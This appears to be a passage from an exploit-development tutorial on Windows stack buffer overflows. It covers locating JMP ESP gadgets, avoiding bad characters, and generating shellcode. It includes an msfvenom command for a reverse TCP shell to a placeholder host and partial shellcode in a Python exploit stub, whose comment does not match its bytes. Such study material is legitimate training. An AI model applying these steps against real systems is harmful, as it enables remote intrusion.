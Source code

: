 As for **OS DLL**, if we are running on a newer Windows version like **Windows 10**, we can expect all **OS DLL** files to have all memory protections present, so we would not use any of them. If we were attacking an older Windows version like **Windows XP**, many of the loaded **OS DLLs** likely have no protections so that we can look for **JMP ESP** instructions in them as well.

The best option is to use an instruction from the program itself, as we'll be sure that this address will exist regardless of the version of Windows running the program.

Pressing `ALT + e` lead to the **Symbols** tab, where we can see all these files. Select our target program and search for `JMP ESP` with `CTRL + f`. We must ensure that the instruction address does not contain any *bad characters*.

If we had a large list of loaded modules, we could search through all of them by right-clicking on the main top right **CPU** pane and selecting `Search For> All Modules> Command`, then entering jmp esp. However, this may return a large list of results, some of which may not be usable.

### Searching for Patterns 

Another example of a basic command to jump to the stack is **PUSH ESP** followed by **RET**. Since we are searching for two instructions, in this case, we should search using the machine code rather than the assembly instructions. Some tool like `msf-nasm_shell` in our machine could be useful. This take an assembly instruction and give us the corresponding machine code. Now, in the **CPU** pane we can press `CTRL + B` and search by the pattern we get.

## Jumping to Shellcode 

### Shellcode Generation 

We have many aviable shellcode in **msfvenom**:
```console
zero@pio$ msfvenom -l payloads
```

Let's take the example of a 32-bit Windows:
```console
zero@pio$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=<ip> LPORT=<port> -f 'python'

buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
```

Copy the output to our Python Script:
```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```

### Final payload 
